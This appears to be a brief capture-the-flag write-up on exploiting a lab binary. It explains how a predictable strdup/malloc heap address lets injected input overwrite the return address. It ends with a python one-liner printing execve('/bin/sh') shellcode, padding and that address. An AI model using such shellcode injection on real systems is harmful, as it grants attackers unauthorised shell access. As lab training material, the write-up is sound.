



```
as we can see the main is simple it calls a function p().
```


```
....
```

```
as the source.c shows the function p() is doing a check on the return address then it allocates to our input into the heap using a call to the strdup() function internally strdup calls malloc() and using ltrace we can notice that whenver we run the program it returns the same addresse where it allocated our input so we can start writing from that address then override the Instruction pointer with the address returned from malloc in order for the programe to jump to that adress and execute the code injected

python - c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'
```